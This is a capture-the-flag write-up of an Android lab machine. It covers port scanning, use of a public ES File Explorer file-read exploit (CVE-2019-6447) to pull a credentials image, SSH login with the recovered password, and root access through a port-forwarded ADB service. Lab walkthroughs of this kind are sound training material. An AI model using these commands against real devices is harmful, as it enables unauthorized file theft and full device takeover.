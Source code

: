 ```yaml
---
title: "My Important post"
date: 2020-09-15T11:30:03+00:00
weight: 1
---
```


We start with a nmap scan

all ports nmap (cut):
```bash
$ nmap -p- 10.10.10.247                     
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
35391/tcp open     unknown
42135/tcp open     unknown
59777/tcp open     unknown
```

---

nmap with scripts on the open ports (cut): 

```bash
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
35391/tcp open     unknown
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

None of the ports's can be visited from the web, except the port `59777` but that leads to a page that says forbidden. According to the nmap results, there probably is a minecraft server behind that port, so nothing too intresting there.

The only lead we have is port 42135, let's look further into it. 

---

Running searchsploit we get multiple hits, the first one that comes up seems to be the best for us, since the rest don't have the correct name. `ES File Explorer 4.1.9.7.4 - Arbitrary File Read `

---

```bash
$ searchsploit -m android/remote/50070.py
```


Looking at the code we can see a proxy rule, `proxy = {"http":"http://127.0.0.1:8080", "https":"https://127.0.0.1:8080"}`
The proxy variable is already set to the burpsuit proxy listener's port. We just need to add the proxy argument to the `requests.post` in the `httPost()` function. We can do that by adding `proxies=proxy` to the command so we get the following line:
```python
response = requests.post(url, headers=header, data=data, proxies=proxy)
```

We can run the program with the following arguments: `python3 50070.py listFiles 10.10.10.247`. We can look at our captured burp request to see what happened. 


```http
POST / HTTP/1.1
Host: 10.10.10.247:59777
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 24

{"command": "listFiles"}
```

The exploit script is making a POST request to the ES File Explorer service with a command. We specified the listFiles command previously. 
When forwarding the request we get a list of files, which seem to be on an android system. 

While trying out a few commands from the exploit script, I stumble upon the command `listPics`. This command lists all the pics found by the ES file explorer. We see one intresting file named `creds.jpg`. We can retrieve this file by selecting the getFile command:
```bash
python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

we move the `out.dat` file to creds.jpg by executing the `mv out.dat creds.jpg` command. When opening the image we see credentials for the account kristi. 
`kristi:Kr1sT!5h@Rp3xPl0r3!`
We try the credentials on ssh, port 2222

```bash
ssh -p 2222 kristi@10.10.10.247                                                                                                                                                                                                    127 ⨯
Password authentication
Password: 
:/ $ 
```
The credentials are correct and we get a shell.

---

After some googling on this file system I found this: https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/adb-commands#port-tunneling

netstat exists on ADB (which is in what we are right now, an android debugging tool of some sort). 

```bash
netstat -tuln                                                         
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp6       0      0 :::42135                :::*                    LISTEN     
tcp6       0      0 :::59777                :::*                    LISTEN     
tcp6       0      0 ::ffff:10.10.10.2:35209 :::*                    LISTEN     
tcp6       0      0 ::ffff:127.0.0.1:44971  :::*                    LISTEN     
tcp6       0      0 :::2222                 :::*                    LISTEN     
tcp6       0      0 :::5555                 :::*                    LISTEN     
tcp6       0     80 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:60104 ESTABLISHED
tcp6       0      0 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:60102 ESTABLISHED
udp        0      0 10.10.10.247:21625      1.0.0.1:53              ESTABLISHED
udp        0      0 0.0.0.0:5353            0.0.0.0:*                          
udp        0      0 10.10.10.247:27908      1.1.1.1:53              ESTABLISHED
udp        0      0 0.0.0.0:33083           0.0.0.0:*                          
udp6       0      0 ::ffff:10.10.10.2:43574 :::*                               
udp6       0      0 :::1900                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::49675                :::*
```

We see that port 5555 is listening and that we couldn't find in the nmap scan. Let's try to connect to that port.
Since we can't access it from outside the box, let's go trough the inside and port forward it. 

```bash
ssh -p 2222 kristi@10.10.10.247 -L 5555:127.0.0.1:5555
Password authentication
Password: 
:/ $
```
It appears that we just connected to the shell, we have in a matter of fact. But we've also port forwarded the port 5555 on the box to port 5555 on our local machine. 
We can now connect to the port using adb connect localhost:5555
We connect first: `adb connect 127.0.0.1:5555`
Then we spawn a shell: `adb -s 127.0.0.1:5555 shell`
After connecting, we can run the command `su` to get root privileges.
```bash
x86_64:/ $ su
:/ # whoami
root
```

---

The user flag is located in `/mnt/user/0/primary`
The root flag is located in: `/data/root.txt`

That was all! Quite an easy box, but still a challenge researching about the ADB. Thanks for reading!

- Crunch#8996

